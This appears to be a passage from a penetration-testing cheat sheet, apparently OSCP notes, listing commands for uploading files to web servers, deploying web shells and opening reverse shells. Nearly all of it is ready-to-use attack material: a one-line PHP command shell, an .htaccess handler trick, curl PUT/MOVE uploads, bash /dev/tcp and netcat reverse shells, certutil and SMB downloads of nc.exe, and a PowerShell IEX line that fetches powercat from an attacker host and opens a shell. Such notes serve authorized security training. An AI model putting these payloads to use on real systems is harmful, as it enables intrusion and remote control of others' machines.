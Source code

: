   ```
- `curl -X POST -F "file=@/path/to/your/file" http://example.com/postinfo.html`
- `curl -X PUT --upload-file exploit.html http://example.com/exploit.html`
- `curl -X MOVE --header 'Destination:http://example.com/exploit.asp' 'http://exploit.com/exploit.html`

## Shells

**Web shells**
- In kali, `cd /usr/share/webshells/`
  - `asp`, `aspx`, `cfm`, `jsp`, `laudanum`, `perl`, `php`, `phtml`
- `cp /usr/share/webshells/php/php-reverse-shell.php .`
- `cp /home/kali/Documents/windows-attack/Scripts/windows-php-reverse-shell.php .`
- for gifs: `GIF87a;` or `GIF89a;`
- https://github.com/Dhayalanb/windows-php-reverse-shell/tree/master
- `.htaccess`: https://github.com/wireghoul/htshells
  - Another trick from OSCP Walkthroughs
    - ```
      .htaccess
      AddType application/x-httpd-php .evil
      (+)
      siren.evil
      <pre><?php echo system($_GET['cmd']); ?></pre>
      ```
- for asp applications
  - `cp /usr/share/webshells/aspx/cmdasp.aspx .`
  - `cp /usr/share/laudanum/aspx/shell.aspx .`
  - `wget https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp -O cmd.asp`
  - try `.aspx` or `.mspx` to upload a cmd shell
  - another try:
    1. https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc   (+)
    2. https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs
    - See "Proving Grounds: Butch" https://auspisec.com/blog/20220118/proving_grounds_butch_walkthrough.html
  - `web.config` to run as an ASP: https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/
  - `cp /usr/share/webshells/config/web.config .`


**Reverse shells**
- `mknod a p && telnet IP 443 0<a | /bin/sh 1>a`
- `certutil.exe -urlcache -split -f http://IP/nc.exe nc.exe`
  - `.\\\\nc.exe IP 443 -e cmd.exe`
- `\\IP\Share\nc.exe IP 443 -e cmd.exe`
- `bash -i >& /dev/tcp/IP/80 0>&1`
- `nc -nv IP 80 -e /bin/bash`
- Notes
  - https://www.revshells.com/
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/
  - Windows Reverse Shell Generator — https://github.com/thosearetheguise/rev
  - For the listener, use `rlwrap`


**Windows Reverse Shell**
1. `sudo impacket-smbserver -smb2support share /home/kali/Documents/windows-attack/nc/`
2. `cmd.exe /c //IP/Share/nc.exe -e cmd.exe IP 7680`
- Fix PATH: `set PATH=%SystemRoot%\system32;%SystemRoot%;`


**Powershell Reverse Shell**
- `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://IP/powercat.ps1');powercat -c IP -p 5040 -e powershell"`
  ```